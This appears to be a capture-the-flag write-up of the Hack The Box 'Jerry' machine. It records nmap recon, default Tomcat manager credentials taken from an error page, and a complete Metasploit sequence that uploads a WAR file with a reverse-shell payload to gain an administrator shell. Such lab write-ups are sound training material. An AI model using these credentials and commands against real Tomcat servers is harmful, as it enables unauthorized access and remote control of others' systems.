 # [cd ../](../index.md)

---

# Jerry
## Details
Name | Jerry
--- | ---
IP | 10.10.10.95
Os | Windows
Points | Easy (20)

# Start
## Recon
### Nmap
[nmap_big.txt](nmap/nmap_big.txt)  
Open Ports:

Port | Service | Version
:--- | :---: | ---:
8080 | http | Apache Tomcat/Coyote JSP engine 1.1 

### Web
Just go to `10.10.10.95:8080` and we can see this server runs `Apache Tomcat/7.0.88`!!

There is some interesting links on the main page!  
![web.png](web.png)  
If we click one and not provide a pw we get a `401 Unauthorized page` that shows the default credentials!  
`tomcat:s3cret`  
Lets try to use these!  
We got the **Manager page** (`/manager/html`)  

## Exploting
We can upload a `.WAR` file!

Search for exploits in **msf**  
We found one!
```
use exploit/multi/http/tomcat_mgr_upload

set HttpPassword s3cret
set HttpUsername tomcat
set RHOSTS 10.10.10.95
set RPORT 8080
set payload java/shell_reverse_tcp
run
```
And we got an admin shell

# Got the flags from `C:/Users/Administrator/Desktop/flags/`

